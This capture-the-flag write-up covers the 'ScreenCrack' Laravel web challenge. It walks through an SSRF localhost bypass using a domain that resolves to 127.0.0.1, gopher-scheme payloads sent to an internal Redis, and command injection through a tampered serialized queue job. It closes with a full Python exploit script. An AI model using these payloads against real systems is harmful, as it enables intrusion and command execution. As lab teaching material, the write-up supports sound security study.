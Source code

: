 ```yaml
---
tags:
  - Web
---
```


# ScreenCrack 

[![Medium](https://img.shields.io/badge/Medium-FF9E0F?style=for-the-badge&logoColor=#FF9E0F)](https://squidfunk.github.io/mkdocs-material/)

## Challenge description

New screenshot service just dropped! They talk alot but can they hack it?

---

### First recon

Our flag is in a file in the application directory.

We have a **Laravel 10.6.2** application runing which homepage said:

**Users can view screenshots and the source code of any entered URL using the free web service ScreenCrack. To protect user privacy, our service deletes all screenshots and source files. Our primary goal is to protect users from malicious, shady, and fraudulent links.**

![](../../images/screen-crack-1.png)

We can pass an URL. Let's take a look what we can do with it.

We have two options linked to two different api endpoints:

- `/api/getss` - Get the URL screenshot using the web **"https://api.screenshotmachine.com/?key=6b76b2&dimension=1024x768&url=".$url** and creates a temporally png file with a random name inside **/www/public/ss/** path
- `/api/get-html` - Made a request to the URL, read the response and add a txt file with page content inside **/www/public/src/** path and render inside a iframe

Additionally there is a job that delete generated files after some time using the next code.

```php
public function deleteFile()
{
    $filepath = $this->buildFilePath();
    system("echo '".$this->uuid."'>>halo");
    system("rm ".$filepath);
}
```

In local we can see the uuids removed by the job.

![](../../images/screen-crack-2.png)

**Important:** All URLs are validated before send the request, so local URL aren't permited.

We have also a local Redis application up and running. Feels like we need to make some [SSRF](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#basic-information) tricks to communicate with Redis service.

### Localhost Bypass

I tried using HackTricks urls to bypass localhost but nothing helps.

After a while I found that some public domains resolves to 127.0.0.1 [Available Public Wildcard DNS Domains pointing to localhost (127.0.0.1)](https://gist.github.com/tinogomes/c425aa2a56d289f16a1f4fcb8a65ea65).
And using `fbi.com` as domain we get access to local application.

![](../../images/screen-crack-3.png)

Let's try to communicate with Redis service.

### Redis RCE

Looking how to communicate with redis service through SSRF we can found multiple post that use the `gopher` schema. If we test the INFO command of redis with the URL `gopher://fbi.com:6379/_%0D%0AINFO%0D%0Aquit%0D%0A` we received the response of Redis:

```
...
# Server
redis_version:7.0.15
redis_git_sha1:8cceef4b
redis_git_dirty:0
redis_build_id:b445ae7ca70219e7
redis_mode:standalone
os:Linux 6.8.11-arm64 aarch64
arch_bits:64
...
```

And using this python script we can create payloads sending to Redis and try to get our flag using some [LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion) technique.

```python
redis_cmd = """
INFO server
quit
"""
gopherPayload = "gopher://fbi.com:6379/_%s" % redis_cmd.replace('\r','').replace('\n','%0D%0A').replace(' ','%20')

print(gopherPayload)
```

I tried to use Redis to create a PHP webshell like [https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion) but we can't do this because Redis thrown error because `dir` and `dbfilename` config parameters cannot be changed.

Looking in the official forum discussion someone says that we need to use the Redis key values generated by Laravel application. If we check the values of the keys generated by the application, we found that the key values are the instances of `App/Jobs/rmFile`, including the properties.

```
{"uuid":"e65cb62f-5b72-4e6b-9cfd-5c2b91eaf47f","displayName":"App\\Jobs\\rmFile","job":"Illuminate\\Queue\\CallQueuedHandler@call","maxTries":null,"maxExceptions":null,"failOnTimeout":false,"backoff":null,"timeout":null,"retryUntil":null,"data":{"commandName":"App\\Jobs\\rmFile","command":"O:15:\"App\\Jobs\\rmFile\":1:{s:9:\"fileQueue\";O:21:\"App\\Message\\FileQueue\":3:{s:8:\"filePath\";s:45:\"\/src\/f046b9ac-710b-426d-bb21-d08669b3c96d.txt\";s:4:\"uuid\";s:36:\"f046b9ac-710b-426d-bb21-d08669b3c96d\";s:3:\"ext\";s:3:\"txt\";}}"},"id":"OyW8xxRT4ydRNEXlRhNDdpSDOoeoEtyH","attempts":0}
```

🤔 What if we change the uuid value to made a RCE excecution when app excetute `echo` command that we see previously. And yes, it worked.

![](../../images/screen-crack-4.png)

So, let's try to read the content of the flag exposed in a public directory, using the code `;mv /flag /www/public/src/flag.txt;echo` we can archieve it.

### Exploit

```python
#!/usr/bin/python3

import requests
import re
import time

HOST = 'http://94.237.62.79:46267'

try_again = False

cookies = {'laravel_session': 'eyJpdiI6IjFEck5qN2tqam9TSERHRThtZXdFY0E9PSIsInZhbHVlIjoiV3hpRWwraTBGWDI1bThBZHRFSU4wOGxDbkt4VnJNdStTUFQrSGMxZGE3MEN5eWVGMVluNm5EZHNCaTJWNmxFY2JOR3Brc1p6dURCNmg2OHRCbFI2UkZUS1Y2OHA0Zmx4U0ZSbXVtMkRVZkRKTFI3bWxPUjRINU9sSU83Q21obnMiLCJtYWMiOiJmODVmZDZjNzczZTBlOGU1OGUwM2QyY2RhZTBmMTBhZWQ5NmE4ODMyMGE0NWQyZTA4OWNjYzJiNGUyNjE0MGE4IiwidGFnIjoiIn0%3D'}


def send_redis_cmd(cmd):
    gopherPayload = "gopher://fbi.com:6379/_%s" % cmd.replace(
        '\r', '').replace('\n', '%0D%0A').replace(' ', '%20')

    res = requests.post(f'{HOST}/api/get-html',
                        json={'site': gopherPayload},
                        headers={'Content-Type': 'applcation/json'},
                        cookies=cookies
                        )
    response = res.json()
    txt_file = response['filename']

    return requests.get(f'{HOST}{txt_file}', cookies=cookies)


redis_cmd = """
rpop laravel_database_queues:default
quit
"""

res = send_redis_cmd(redis_cmd)

convertedInstance = None
try:
    code_to_exec = ';mv /flag /www/public/src/flag.txt;echo Done'
    instance_re = re.compile(r'({"uuid".*:0})')
    uuid_re = re.compile(
        r's:36:\\"[0-9a-f]{8}-[0-9a-f]{4}-[0-5][0-9a-f]{3}-[089ab][0-9a-f]{3}-[0-9a-f]{12}\\"')
    rmInstance = re.search(instance_re, res.text).group(0)
    convertedInstance = re.sub(
        uuid_re,
        f's:{len(code_to_exec)}:\\"{code_to_exec}\\"',
        rmInstance)
except:
    print("No instance saved. Try again")
    try_again = True

redis_replace_cmd = f"""
lpush laravel_database_queues:default '{convertedInstance}'
lrange laravel_database_queues:default 0 10
quit
"""

if convertedInstance is not None:
    res = send_redis_cmd(redis_replace_cmd)
else:
    print("Try again")
    try_again = True

print("Done. Waiting the cronjob...")

if not try_again:
    while True:
        print("Trying get flag value")
        r = requests.get(f'{HOST}/src/flag.txt', cookies=cookies)
        if r.status_code != 404:
            print(r.text)
            break
        time.sleep(60)

```